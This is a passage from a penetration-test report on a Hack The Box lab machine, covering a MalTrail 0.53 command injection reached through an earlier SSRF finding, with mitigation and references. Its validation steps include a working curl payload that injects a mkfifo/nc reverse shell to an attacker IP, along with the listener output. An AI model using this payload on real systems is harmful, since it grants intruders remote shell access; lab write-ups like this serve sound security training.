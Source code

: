 ### References
- [https://nvd.nist.gov/vuln/detail/CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
- [https://cwe.mitre.org/data/definitions/918.html](https://cwe.mitre.org/data/definitions/918.html)
- [https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7)

## HTBSAU-2024-02 MalTrail 0.53 Command Injection RCE
### Observation
The MalTrail application was exposed through the SSRF vulnerability described in HTBSAU-2024-01. MalTrail is running a vulnerable version of 0.53 that allows remote code execution (RCE) via command injection.

### Affected Components
- Web application on sau.htb running on `http://localhost:80/`

### Description
"Command injection vulnerabilities typically occur when:
1. Data enters the application from an untrusted source.
2. The data is part of a string that is executed as a command by the application.
3. By executing the command, the application gives an attacker a privilege or capability that the attacker would not otherwise have."
- [https://cwe.mitre.org/data/definitions/77.html](https://cwe.mitre.org/data/definitions/77.html)

The tester was able to execute arbitrary operating system commands leading to a reverse shell.

### Mitigation
Upgrade MalTrail to a patched version.

### Validation
1. Configure a basket detailed in HTBSAU-2024-01
2. On the attacking machine run `nc -nlvp 9090`
3. On another shell on the attacking machine run, changing the bucket name and attacker IP address.
```shell
   curl 'http://sau.htb:55555/mfaos3m/login' --data 'username=;`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%25261|nc 10.10.14.87 9090 >/tmp/f`'
```
4. A vulnerable version will connect back to the `nc` command
```shell
$ nc -nlvp 9090
listening on [any] 9090 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.229.26] 56694
/bin/sh: 0: can't access tty; job control turned off
$
```

### References
- [https://cwe.mitre.org/data/definitions/77.html](https://cwe.mitre.org/data/definitions/77.html)
- [https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
